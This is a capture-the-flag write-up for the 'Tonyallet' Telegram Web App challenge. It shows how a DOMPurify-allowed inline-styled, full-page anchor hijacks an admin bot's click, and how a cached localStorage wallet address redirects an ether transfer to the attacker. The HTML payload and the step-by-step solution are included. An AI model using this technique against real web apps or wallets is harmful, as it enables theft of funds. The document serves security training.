




# Tonyallet

> [!NOTE]
> Easy | 29 solves

>   Tony Ads #2 After his DeFi dreams crashed, Tony pivoted to SocialFi, crafting a buzzword-laden pitch that had VCs practically throwing money at him, all while he secretly chuckled at the irony of his newfound success.
    Ping @tonyalletbot on Telegram! You can also report posts at https://tonyallet-us-report.ctf.so/


## Analysis
In the description, we are given a Telegram bot, and if we access it, we will see that it uses Telegram Web Apps.



Telegram Web Apps are simply web pages with a special SDK embedded. To open this page in your browser, you just need to open the web version of Telegram and copy the address of the iframe window.



Now we need to look at the admin bot's logic:

1. It will go to the `post_id` that we provided.
   ```python
        selenium_obj.get(f"{host}/post?id={post_id}")
   ```
2. It will click the button at the top of the screen to go back.
   ```python
    screen_width = selenium_obj.execute_script("return window.screen.width;")
    ActionChains(selenium_obj) \
        .move_by_offset(screen_width / 2, 10) \
        .click() \
        .perform()
   ```
3. It will open the main page with its Telegram data.
   ```python
    selenium_obj.get(f"{host}/#tgWebAppData=" + open("tgWebApp.txt").read())
   ```
4. It will copy the wallet address and transfer the money to it.
   ```python
    wallet_address = selenium_obj.find_element(By.ID, "walletAddress").text
    if not re.match(r"^0x[a-fA-F0-9]{40}$", wallet_address):
        return "Failed to get wallet address"
    # send 0.1 ether to the wallet address
    os.system(f"cast send --private-key {os.getenv('PRIVATE_KEY')} {wallet_address} --value 0.1ether --rpc-url {os.getenv('RPC_URL')}")
    ```


To obtain the flag, we need to substitute the address and get the money transferred to our account.

Let's check main page again. The function `getWallet` is called without passing any arguments to retrieve the address on the page.

If you look at the function's code, you can notice that if the bypass argument is not passed, it will use the previously saved value:
```js
async function getWallet(bypass=false) {
    let localAddress = localStorage.getItem("walletAddress")
    if (localAddress && !bypass) {
        document.getElementById('walletAddress').textContent = localAddress;
        return
    }
```

Therefore, in order to substitute the address, we just need to open the page with our tgWebAppData before the admin does, and the saved address displayed on their page will be ours, not theirs.

Now, if we look at the source code of the page with the post, we can see that it inserts the description of our post into the HTML, but before that, it goes through DOMPurify:

```js
postDetails.innerHTML = DOMPurify.sanitize(
`
<h3>${data.title}</h3>
<p>${data.content}</p>
<p>Author Hash: ${data.author}</p>
<p>Timestamp: ${new Date().toISOString()}</p>
`, { USE_PROFILES: { html: true } }
);
```

This prevents us from executing XSS, but we only need to open the page. We know that the admin bot will click on the top of it. In its standard configuration, DOMPurify does not remove inline styles from elements, which allows us to create an HTML tag that occupies the entire page. By using the z-index style, we can place it above all other tags so that the bot clicks on it instead of the 'back' button as expected:
```html
<a style="position: absolute;z-index:99999;left:0;top:0;width:100000px;height:10000px" href="//neplox.neplox">neplox</a>
```


## Solution
1. Open @tonyalletbot in web telegram.
2. Open iframe in new tab 
3. Add new post with content(replace tgWebAppData with your value):
```html
<a style="position: absolute;z-index:99999;left:0;top:0;width:100000px;height:10000px" href="https://tonyallet-us.ctf.so/#tgWebAppData=YOUR_DATA">neplox</a>
```
4. Check the post at `https://tonyallet-us.ctf.so/post?id=YOUR_POST_ID`, you will see that button fills the entire page 
5. Send post to admin bot via
6. Wait untill admin bot visit your page and refresh you wallet.
7. Check request to /wallet route


Aaand, the flag is captured! 🚩


